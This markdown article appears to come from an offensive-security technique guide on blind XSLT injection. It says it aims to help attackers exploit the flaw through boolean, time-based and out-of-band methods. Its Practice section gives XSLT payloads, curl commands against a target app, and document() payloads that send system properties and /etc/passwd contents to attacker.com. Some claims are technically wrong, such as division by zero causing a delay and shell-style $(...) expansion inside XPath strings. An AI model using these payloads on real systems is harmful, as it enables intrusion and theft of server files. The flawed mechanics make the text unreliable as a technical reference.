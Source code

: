 ```yaml
---
title: Exploit Blind XSLT Injection Techniques
description: Learn to utilize blind XSLT injection for data extraction via boolean,
  time-based, and out-of-band methods.
keywords:
- Blind XSLT Injection
- Data Extraction
- Boolean Blind XSLT
- Time-Based XSLT Injection
- Out-of-Band XSLT
- XSLT Vulnerabilities
- Data Exfiltration
- XSLT Functions
- Cybersecurity Techniques
---
```


# Blind XSLT Injection

## Context

The objective of this article is to enable offensive operators to exploit blind XSLT injection vulnerabilities in web applications. This technique is valuable for scenarios where attacker input is processed by vulnerable XSLT engines without any direct output. It allows inferential attacks to extract data by observing indirect signals such as timing, errors, or out-of-band channels (OOB). Assumed prerequisites for this content include an understanding of XSLT processing internals, XML parsing in web applications, crafting HTTP requests, and general XSLT injection techniques.

## Theory

### Nature of Blind XSLT Injection

Blind XSLT injection occurs when an attacker can inject malicious XSLT code into a web application that processes input using an XSLT engine. However, unlike a direct XSLT injection attack where results are directly displayed, the output in blind injection is not visible to the attacker. Instead, the attacker infers success or failure through indirect signals such as application behavior, timing variations, or out-of-band responses.

### Blind Data Extraction Strategies

#### Boolean-based Blind XSLT Injection

In a boolean-based strategy, attackers exploit conditional logic within the XSLT script to trigger different types of observable responses depending on whether certain conditions are met. Success is inferred through the presence or absence of errors triggered by these conditions.

#### Time-based Blind XSLT Injection

Time-based extraction uses XSLT functions to intentionally slow down the response of the application if a particular condition evaluates to true. Attackers measure the response time to infer the presence of sensitive data, effectively allowing them to deduce information based on processing delays.

#### Out-of-Band Blind XSLT Injection

Out-of-band attacks involve forcing the XSLT engine to send external HTTP or DNS requests to an attacker-controlled server. By doing so, data can be exfiltrated without using the normal application's output channels, making it ideal for bypassing output filters and restrictions.

### Conditional XSLT Responses

In blind XSLT injection, applications may not show XSLT output directly. However, applications can reflect errors, timing differences, or other minor side effects that attackers can measure to infer results. Using this inferential logic, attackers can encode data within these side effects, effectively bypassing output restrictions.

### XSLT Functions for Blind Attacks

XSLT provides powerful functions like `document()`, `system-property()`, and custom extension elements that enable implementing conditional logic. These functions allow attackers to access system properties, make external calls, and carry out complex logic. Permissive XSLT engines may support network or file operations, facilitating out-of-band data exfiltration.

## Practice

### Boolean-Based Blind XSLT Injection

- **Objective:** Infer system property values through error-based boolean logic.
- **Payload:**

    ```xml
    <xsl:if test="substring(system-property('os.name'),1,1)='W'">
        <xsl:message terminate="yes">A</xsl:message>
    </xsl:if>
    ```

- **Command:**

    ```bash
    curl -i -X POST -d "xml=<payload>" http://target/app
    ```

- **Explanation:** This payload triggers an error if the operating system name starts with 'W' (e.g., Windows). The presence of an error in the response indicates a true condition.

### Time-Based Blind XSLT Injection

- **Objective:** Extract data by correlating response time with injected logic.
- **Payload:**

    ```xml
    <xsl:if test="substring(system-property('user.name'),1,1)='a'">
        <xsl:variable name="x" select="1 div 0"/>
    </xsl:if>
    ```

- **Command:**

    ```bash
    curl -w '%{time_total}\\n' -X POST -d "xml=<payload>" http://target/app
    ```

- **Explanation:** Here, a deliberate division-by-zero condition induces a delay when the condition is true, allowing inference based on response timing.

### Out-of-Band (OOB) Blind XSLT Injection via DNS

- **Objective:** Exfiltrate sensitive data via external HTTP/DNS requests.
- **Payload:**

    ```xml
    <xsl:variable name="x" select="document('http://attacker.com/$(substring(system-property('user.name'),1,1))')"/>
    ```

- **Explanation:** This forces the XSLT engine to make an HTTP request to an attacker-controlled server with leaked data. Monitor incoming requests on the attacker server to capture exfiltrated data.

### Blind File Read via XSLT OOB

- **Objective:** Read server files by exfiltrating contents through OOB requests.
- **Payload:**

    ```xml
    <xsl:variable name="x" select="document('http://attacker.com/$(substring(document('file:///etc/passwd'),1,1))')"/>
    ```

- **Explanation:** This payload attempts to leak the first character of `/etc/passwd` by sending it as part of an HTTP request. Capture these requests to reconstruct the file contents character by character.

## Tools

- **curl**
- **Burp Suite**
- **tcpdump**
- **Responder**
- **Custom HTTP/DNS listener**